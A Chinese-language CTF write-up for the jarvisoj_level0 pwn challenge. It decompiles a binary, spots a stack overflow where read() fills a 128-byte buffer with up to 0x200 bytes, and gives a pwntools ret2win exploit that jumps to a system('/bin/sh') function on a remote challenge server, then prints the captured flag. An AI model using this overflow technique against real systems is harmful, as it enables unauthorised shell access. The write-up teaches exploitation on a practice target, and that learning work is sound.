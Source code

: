 ```yaml
---
title: jarvisoj_level0
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

下载附件，用 IDA 64 打开，找到主函数，反汇编，得到以下伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
```

一看就知道这个 `vulnerable_function()` 有问题，直接进去，以下是这个函数的代码

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

高危函数就出来了，这个 `read()` 往一个 0x80 大小的数组中装入 0x200 大小内的数据，马上就知道是栈溢出

## 找 `/bin/sh`

按 Shift + F12 找到 `/bin/sh`，然后跟着找到了函数 `callsystem()`，以下是这个函数的伪代码

```c
int callsystem()
{
  return system("/bin/sh");
}
```

是我想要的东西了，然后 IDA 下面就会写出这个函数的地址，即 `0x400596`

## 编写 Exp

```python
from pwn import *

r = remote("node4.buuoj.cn", 25762)
func_addr = 0x400596
payload = b"A"*(0x80+0x8) + pack(func_addr, 64)  # 0x80 是 buf[128] 的大小，0x8 是 dup
r.sendline(payload)
r.interactive()
```

## 攻入靶机

运行 Exp，`ls`，`cat flag`，最后的结果是 `flag{d99f5551-5834-47ad-8661-a246d0d3f891}`